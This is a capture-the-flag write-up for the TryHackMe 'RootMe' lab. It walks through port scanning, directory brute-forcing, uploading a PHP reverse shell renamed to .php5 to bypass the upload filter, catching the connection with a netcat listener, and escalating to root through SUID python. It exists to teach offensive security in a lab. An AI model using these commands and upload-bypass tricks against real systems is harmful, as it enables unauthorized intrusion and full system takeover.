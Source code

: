 # RootMe — TryHackMe Write-up  
![Nmap Returns](logo.png)
_Target IP: **10.10.2.71**_  

> This write-up walks through every task in the **RootMe** room, from deployment to privilege escalation.  
> Go to https://tryhackme.com/room/rrootme

---

## Task 1 – Deploy the Machine  

1. Click **“Start Machine”** in the room.  
2. Note the target’s IP once it boots up.  
   ```
   Victim IP: 10.10.2.71
   ```
---

## Task 2 – Reconnaissance  

### 1 . Port scan  

```bash
nmap -sV 10.10.2.71
```

| Port | Service | Version |
|------|---------|---------|
| 22   | ssh     | OpenSSH 7.6p1 Debian 4+deb9u4 |
| 80   | http    | Apache **2.4.29** (Ubuntu)    |

> **Answers**  
> *How many ports are open?* **2**  
> *What version of Apache is running?* **2.4.29**  
> *What service is running on port 22?* **ssh**

![Nmap Returns](screenshots/1.png)

### 2 . Directory brute-force  

```bash
# Ensure wordlist is present
sudo mkdir -p /usr/share/wordlists/dirb
sudo wget https://raw.githubusercontent.com/v0re/dirb/master/wordlists/common.txt      -P /usr/share/wordlists/dirb/

gobuster dir   -u http://10.10.2.71/sitemap   -w /usr/share/wordlists/dirb/common.txt
```

Key finding:

```
/panel/      (Status: 301)
```

![Gobuster results](screenshots/2.png)

---

## Task 3 – Getting a Shell  

1. Browse to `http://10.10.2.71/panel/` — it exposes a file-upload form.  
2. Grab **PentestMonkey’s PHP reverse shell**:  

   ```bash
   wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
   ```

3. Edit two lines, then save as **`shell.php5`** (the unusual extension bypasses filters):

   ```php
   $ip   = '10.11.137.220';   // ← your tun0 / VPN IP
   $port = 1234;              // listener port
   ```

   ![Edited reverse shell](screenshots/3.png)

4. Upload `shell.php5` via `/panel/`.  
5. Start a listener:

   ```bash
   nc -lvnp 1234
   ```

6. Trigger the payload:

   ```
   http://10.10.2.71/uploads/shell.php5
   ```

7. Upgrade the TTY:

   ```bash
   python -c 'import pty, os; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```

8. Grab **user.txt**:

   ```bash
   find / -type f -name user.txt 2>/dev/null
   # -> /var/www/user.txt
   cat /var/www/user.txt
   ```

   ![User flag obtained](screenshots/6.png)

---

## Task 4 – Privilege Escalation  

### 1 . Find SUID binaries  

```bash
find / -user root -perm -4000 -type f 2>/dev/null
```

Notable hit:

```
/usr/bin/python
```

![SUID python](screenshots/7.png)

### 2 . GTFOBins technique  

According to [GTFOBins → python → SUID](https://gtfobins.github.io/gtfobins/python/#suid):

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

You now have a **root shell** (`#` prompt).

### 3 . Read **root.txt**  

```bash
find / -type f -name root.txt 2>/dev/null
# -> /root/root.txt
cat /root/root.txt
```

![Root flag](screenshots/10.png)

---

## Flags  

| Flag | Location | Proof |
|------|----------|-------|
| **user.txt** | `/var/www/user.txt` | `THM{...}` |
| **root.txt** | `/root/root.txt`    | `THM{...}` |

---

### Clean-up  

- Exit the root shell: `exit` twice.  
- Stop your Netcat listener.  
- Terminate the THM VM if you’re finished to avoid idle timeouts/billing.

---

**Done — you now own RootMe!** 🎉
